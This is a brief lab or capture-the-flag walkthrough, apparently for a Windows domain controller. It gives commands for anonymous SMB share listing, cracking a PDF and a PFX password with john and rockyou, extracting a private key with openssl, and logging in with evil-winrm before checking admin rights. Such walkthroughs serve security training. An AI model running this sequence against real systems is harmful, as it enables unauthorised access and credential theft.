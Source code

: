 services
LDAP -p 389
some domain controller (likely MS Active Directory) -p 53
kerberos-sec -p 88

`smbclient -L //<ip> -N`
null shares enabled
- Get a pword protected pdf inside

Cracking the password on pdf
`pdf2john <file>.pdf > john.hash`
`gzip -d /usr/share/wordlists/rockyou.txt.gz`
`john --wordlists=/usr/share/wordlists/rockyou.txt john.hash`

- pword protected pfx file inside (used for keys)
`pfx2john <file>.pfx > pfx.hash`
`john --wordlists=/usr/share/wordlists/rockyou.txt pfx.hash`
-> password to use pfx shud be spit out

`openSSL pkcs12 -in <file>.pfx -out privatekey.pem -nodes`
-> enter the cracked password for john
-> private key shud be received


Gain access to the system remotely
`cat privatekey.pem`
-> seperate out the private key and the cert

`evil-winrm -S -k legacy.key -c legacy.cert -i <targetip>`

`ls c:\Users\`
`net user john`
-> john has admin privs